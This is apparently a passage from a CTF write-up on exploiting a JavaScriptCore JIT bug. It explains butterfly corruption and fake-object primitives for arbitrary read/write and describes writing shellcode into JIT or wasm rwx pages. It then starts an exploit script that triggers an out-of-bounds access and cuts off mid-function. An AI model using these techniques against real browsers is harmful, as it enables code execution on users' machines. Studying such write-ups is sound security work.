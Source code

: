 ```diff
+
```

Here, you can use `Reflect.strid(obj)` to obtain a `StructureID` leak for that particular object.

What is the butterfly? The butterfly is a buffer that contains array elements at positive indices and out-of-line properties at negative indices.

Ok, so the butterfly is similar to an ArrayBuffer backing store pointer, in a sense. That means we just need to be able to corrupt the butterfly of an object to an arbitrary value, to then achieve arbitrary read/write (well, more or less, good enough for this challenge).

So now, our method of exploitation is similar to a basic CTF heap note challenge :)

First, we create an object (preferably a float array) - which we will later target by corrupting its butterfly (lets refer to this object as `target`).

Then we create an object with two inline properties (inline properties are properties that are stored within the JSObject), and lets call this object `container`. These inline properties are:
+ Fake JSCell header
+ Fake butterfly

We create the fake butterfly such that it points to `target`'s butterfly.
 
Now we have something like this:
```
fake butterfly -> target butterfly -> ?
```

After this, we can use the `fakeObj` primitive to create a fake object at the address of `container`'s first inline property, let's call this new object `fake`. Now writing to `fake`'s butterfly will overwrite `target`'s butterfly!

Now we have (almost) arbitrary read-write:
+ Read: Store address to read from in fake[0], return target[0] to get value at address.
+ Write: Store address to write to in fake[0], store value to write in target[0].

Using all the primitives we have constructed so far, the rest of the exploit is pretty easy. We can use either a JIT compiled function or a wasm function, which will both create `rwx` pages, write our own shellcode to the generated `rwx` page, then call the aforementioned function, to get code execution! 

## Exploit Script

Stable OOB read:

```js
function hax(arr, a) {
    // Force 32-bit integer
    let b = a | 0;
    // Setup bug trigger
    // compiler assumes range is [1, 2], actually [0, 2]
    let c = b & 2;
    // Trigger rangeFor
    // assumed range [0, 1], actual [-1, 1]
    let idx = c - 1;

    // Check will always pass
    if (idx < arr.length) {
        // Trigger integer underflow, idx will become INT_MAX
        // Compiler assumes this case only triggers for value 0, no underflow check
        if (idx < 1) {
            idx += -0x80000000;
        }
        // Use this to set oob write index
        if (idx > 2) {
            idx += -0x7ffffffa;
        }
        // idx assumed to be < arr.length, only subtraction occurs so upper bound is unchecked
```